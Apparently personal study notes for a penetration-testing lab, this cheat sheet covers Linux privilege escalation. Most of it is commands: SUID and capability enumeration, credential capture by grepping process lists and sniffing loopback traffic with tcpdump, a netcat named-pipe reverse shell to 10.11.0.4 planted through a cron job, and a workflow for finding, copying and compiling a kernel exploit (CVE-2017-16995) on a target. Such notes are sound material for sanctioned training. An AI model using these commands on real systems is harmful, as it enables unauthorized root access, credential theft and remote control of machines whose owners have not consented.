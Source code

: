 Linux privilege escalation

run command over ssh super helpful
cd /usr/share/peass/linpeas
ssh student@192.168.235.52 -p 2222 'bash -s' < linpeas.sh

try polkit pkexec, just try it.
Processes
ps -aux

route tables
route or routel

find connections 

ss -anp

Cron stuff

Show permissions for every folder that starts with the name cron recursively.
ls -lah /etc/cron*

crontab -l
sudo crontab -l (may be runnable if user has the permission)

dpkg -l (list every installed package

find all writable directory by current user
find / -writable -type d 2>/dev/null

NOTE: Try 
find / -writable -type f 2>/dev/null for writable scripts that may be hidden inside a directory!

find all permissions with SUID set. (allows you to
find / -perm -u=s -type f 2>/dev/null

find all capabilities with SUID
/usr/sbin/getcap -r / 2>/dev/null

Mounts - In summary, mount shows the current mount status, /etc/fstab represents the expected configuration, and lsblk provides information about the block devices and their partitions present on the system.

cat /etc/fstab

mount

lsblk

lsmod - list all kernel modules

list module info using /sbin/modinfo mod

group 0 is root, 42 is shadow.... Be careful if you change your accounts info, you may break your only foot-point. its better to just make a new account


sudo -l lets you check what this account can run as sudo, super useful!

check the following for potentially stored plain text creds... immediately try to do su - root as these are likely creds needed for higher privs scripts...

.bashrc

.bashanything really

env

Capture Creds

watch -n 1 "ps aux | grep pass" >> outputfile

if you have tcpdump in sudo -l...

sudo tcpdump -i lo -A | grep "pass"

Cron Jobs

1) scan system level cron jobs
grep "CRON" /var/log/syslog

2) edit a cronjob to get a reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
- this delete the fifo pipe if exists, creates another one, cats its contents to a shell with interactive i flag and redirect errors to error log, write to fifo pipe

kernal exploits...
get os flavor info
cat /etc/issue
result : Ubuntu 16.04.4 LTS \n \l

get kernal info
uname -r 
4.4.0-116-generic

arch 
x86_64

put it all together (kernal exploit) ...

search for exploit
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
use the newest version that matches what you got... I'm assuming you can tell which one is newer using the number at the end example 45010 is newer than 42275
also becareful that 4.13.9 kernal is newer than 4.4.0.... I'm not sure why I immediately assumed the opposite.

Copy to your pwd
cp /usr/share/exploitdb/exploits/linux/local/45010.c . 

cat first 20 lines of it to search for instructions
head 45010.c -n 20

move it to your target if they have a compiler... let them do all the work. DO NOT FORGET THE : at the end. You will just make a copy on your own device
scp cve-2017-16995.c user@ip:

compile it using instructions, change name if needed...
gcc cve-2017-16995.c -o cve-2017-16995

use file to verify everything was made correctly
file cve-2017-16995



